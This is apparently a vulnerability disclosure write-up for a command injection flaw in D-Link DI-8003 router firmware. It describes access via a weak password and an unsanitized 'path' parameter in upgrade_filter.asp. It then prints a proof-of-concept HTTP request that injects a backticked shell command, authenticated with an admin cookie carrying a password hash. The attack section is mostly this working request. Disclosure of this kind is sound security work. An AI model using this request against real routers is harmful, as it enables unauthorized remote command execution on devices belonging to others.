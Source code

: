 # DI8003_command_injection

Firmware brand：D-LInk
Firmware download：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003

---

# Vulnerability analysis
![](vx_images/517114388770285.png)


Enter the page with a weak password, and then upgrade_filter.asp page path parameter, because the command concatenation, resulting in the execution of the command
![](vx_images/222845725221872.png)

![](vx_images/411367237727821.png)

DI8103.py

```

GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```